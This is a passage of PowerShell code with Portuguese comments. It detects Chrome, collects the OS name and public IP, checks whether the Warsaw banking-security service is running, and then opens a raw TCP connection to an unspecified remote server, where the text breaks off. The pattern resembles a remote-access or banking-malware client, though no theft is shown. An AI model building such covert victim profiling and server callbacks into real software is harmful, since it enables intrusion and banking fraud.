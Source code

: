 ```powershell
        "HKLM:\SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\App Paths\chrome.exe",
        "HKCU:\Software\Microsoft\Windows\CurrentVersion\App Paths\chrome.exe"
    )

    # Verifica se o executável existe em algum dos caminhos
    foreach ($path in $chromePaths) {
        if (Test-Path -Path $path -PathType Leaf) {
            Write-Verbose "Chrome encontrado em: $path"
            return $true
        }
    }

    # Verifica no Registro do Windows
    foreach ($regPath in $registryPaths) {
        if (Test-Path -Path $regPath) {
            $chromePath = (Get-ItemProperty -Path $regPath -ErrorAction SilentlyContinue).'(default)'
            if ($chromePath -and (Test-Path -Path $chromePath -PathType Leaf)) {
                Write-Verbose "Chrome encontrado no Registro: $chromePath"
                return $true
            }
        }
    }

    # Se não encontrar em nenhum dos locais, retorna falso
    Write-Verbose "Chrome não encontrado no sistema."
    return $false
}

# Exemplo de uso
if (Test-ChromeInstalled -Verbose) {
    Write-Host "O Google Chrome está instalado no computador." 
    $chrome = "Sim"
} else {
    Write-Host "O Google Chrome não está instalado no computador." 
    $chrome = "Não"
}

# Obter informações do sistema operacional
$osInfo = (Get-WmiObject -Class Win32_OperatingSystem).Caption
$ipAddress = Invoke-RestMethod -Uri "https://api.ipify.org"
#$ipAddress = (Get-NetIPAddress | Where-Object { $_.AddressFamily -eq "IPv4" -and $_.InterfaceAlias -notlike "*Loopback*" }).IPAddress | Select-Object -First 1

# Verifica o status do plugin
$serviceStatus = Get-Service -Name 'Warsaw Technology'
if ($serviceStatus.Status -eq 'Running') {
    Write-Output "O serviço está em execução."
    $stateP = "Sim"
} else {
    Write-Output "O serviço não está em execução."
    $stateP = "Não"
}


#############################################################################
# Conectar ao Servidor
try {
    $client = New-Object System.Net.Sockets.TcpClient
    $client.Connect($serverIP, $serverPort)
    $stream = $client.GetStream()
    $writer = New-Object System.IO.StreamWriter($stream)
    $reader = New-Object System.IO.StreamReader($stream)
```